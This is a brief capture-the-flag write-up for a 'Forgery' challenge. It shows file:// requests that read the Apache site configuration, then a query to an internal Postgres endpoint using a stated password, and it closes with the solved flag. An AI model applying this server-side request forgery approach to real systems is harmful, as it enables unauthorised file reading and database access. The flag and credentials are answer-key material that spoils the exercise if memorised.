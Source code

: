# Forgery 102
Server uses Apache2 so we can check for important files    
https://medium.com/@amey0x/the-most-common-files-for-apache-configurations-23b6b4105f14

And we try this one:
file://////etc/apache2/sites-available/000-default.conf

We get this site/directory:
file:////var/www/html/database/index.php

So then we want to connect to database by using localhost:8080 and passing as arguments
user=postgres&password=Let%26me%3Din&query=SELECT * FROM information_schema.tables 
to get the list of tables and we see that flag db contains flag_82454eeebdae556f451d9a3924 

so we do:
``user=postgres&password=Let%26me%3Din&query=SELECT * from flag.flag_82454eeebdae556f451d9a3924``

FLAG-Lv06965bgw7t1NVUSIHowXgxOCwzlRn2
